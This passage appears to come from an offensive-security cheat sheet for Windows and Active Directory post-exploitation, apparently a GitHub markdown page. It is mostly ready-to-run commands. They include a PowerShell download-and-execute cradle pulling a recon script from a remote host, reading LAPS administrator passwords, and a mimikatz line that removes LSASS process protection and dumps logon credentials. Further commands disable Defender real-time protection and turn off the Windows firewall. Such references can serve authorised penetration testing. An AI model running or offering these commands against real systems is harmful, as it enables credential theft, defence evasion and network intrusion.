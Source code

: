 ```cmd
```
Or
```powershell
ipmo .\adpeas.ps1
Invoke-adPEAS
```
### LAPS

#### Check LAPS
```powershell
iex(new-object system.net.webclient).downloadstring('http://192.168.x.y/tools/hostrecon.ps1')
invoke-hostrecon
```
#### Read Password
```powershell
Get-ADObject -Name web05 -DomainController 192.168.y.z -Properties ms-mcs-admpwd
```
### AppLocker

#### Check AppLocker
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```
#### Bypass AppLocker

### PPL

#### Check PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```
#### Remove PPL
```cmd
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "sekurlsa::logonpasswords"exit
```
### Shutdown AV and Firewall

#### In PowerShell
```powershell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
```
#### In RDP

Manually shut down WD.

### Local Enumeration
